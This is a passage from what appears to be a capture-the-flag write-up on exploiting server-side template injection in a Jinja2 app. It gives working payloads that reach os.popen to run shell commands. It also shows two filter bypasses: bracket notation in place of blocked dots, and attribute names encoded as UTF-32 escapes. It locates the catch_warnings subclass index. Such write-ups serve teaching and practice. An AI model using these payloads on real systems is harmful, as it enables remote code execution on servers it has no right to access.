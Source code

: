 - there is a problem, the server blocks `.`, don’t worry, we can bypass it using `[]`

```bash
{{''.__class__.__mro__[1].__subclasses__()[index_of_catch_warnings].__init__.__globals__['sys'].modules['os'].popen('echo RCE').read()}}
{{''['__class__']['__mro__'][1]['__subclasses__'][index_of_catch_warnings]['__init__']['__globals__']['sys']['modules']['os']['popen']('id')['read']()}}
```

## finding `catch_warnings` index

by sending ` {{''['__class__']['__mro__'][1]['__subclasses__']}} ` in UTF-32 like the following,

```bash
{{''['\U0000005F\U0000005F\U00000063\U0000006c\U00000061\U00000073\U00000073\U0000005F\U0000005F']['\U0000005f\U0000005f\U0000006d\U00000072\U0000006f\U0000005f\U0000005f'][1]['\U0000005f\U0000005f\U00000073\U00000075\U00000062\U00000063\U0000006c\U00000061\U00000073\U00000073\U00000065\U00000073\U0000005f\U0000005f']()}}
```

 we will get a list of the subclasses, convert it from HTML entity and remove other HTML lines, and separate each class in a like in sublime (CTRL+F → `,`  and ALT+Enter then Enter), we can find that catch_warnings in line 208, decrementing it by one because python list counts from zero not one like sublime lines, `catch_warnings` index is 207

we will get

![Untitled](/assets/images/ASCWG-Fathers-Light/Untitled%205.png)
